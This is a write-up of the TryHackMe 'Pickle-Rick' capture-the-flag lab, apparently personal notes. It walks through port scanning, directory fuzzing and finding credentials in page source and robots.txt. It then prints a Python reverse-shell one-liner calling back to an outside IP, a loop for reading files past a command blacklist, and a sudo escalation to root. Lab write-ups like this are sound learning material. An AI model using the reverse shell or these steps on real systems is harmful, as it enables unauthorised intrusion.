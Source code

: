 # Pickle-Rick

**IP:** 10.10.84.215  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 31/05/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.84.215 -oA nmap/Pickle-Rick
```

| Port | Service | Version |
|------|---------|---------|
| 22 | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| 80 | http | Apache httpd 2.4.41 |

## Enumeration

Username `R1ckRul3s` in the web page source (:80).
```html
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```

Found `/login.php` and `/robots.txt` and more.
```bash
ffuf -u http://10.10.70.181:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -s -fc 403 -fs 1062 -e .html,.txt,.php --noninteractive 

login.php
assets
portal.php
robots.txt
denied.php
```

## Exploitation

`robots.txt` contained "`Wubbalubbadubdub`".
```bash
wget http://10.10.70.181/robots.txt -q;cat robots.txt

Wubbalubbadubdub
```

Which I then used in combination with the username  `R1ckRul3s` at `/login.php` to give me access to `/portal.php`, where there was a Control Panel with a code execution prompt.
![[Pasted image 20250601084301.png]]
I used an `awk` reverse shell to use commands and navigate the file system easier.
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.23.121.106",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

`cat` was blacklisted, so I used the `read` command in a while loop to read files. `Sup3rS3cretPickl3Ingred.txt` contains the first ingredient.

```
while read line; do echo $line; done <Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

The second ingredient was in `rick`'s home directory `/home/rick`.
```
ls -la /home/rick
...
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients

while read line; do echo $line; done <'/home/rick/second ingredients'
1 jerry tear
```

`www-data` had full NOPASSWD sudo permissions
```
whoami 
www-data

sudo -l

Matching Defaults entries for www-data on ip-10-10-92-104:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-92-104:
    (ALL) NOPASSWD: ALL
```

## Privilege Escalation

So just switched to the `root` user 
```
sudo bash -i

id
uid=0(root) gid=0(root) groups=0(root)
```

Used `sudo` to find and read the third ingredient in `/root/3rd.txt`
```
sudo ls /root
3rd.txt  snap

while read line; do echo $line; done </'/root/3rd.txt'
3rd ingredients: fleeb juice
```

---

#nmap #ffuf #command-injection #reverse-shell #sudo-privesc #directory-fuzzing #source-code-enum #thm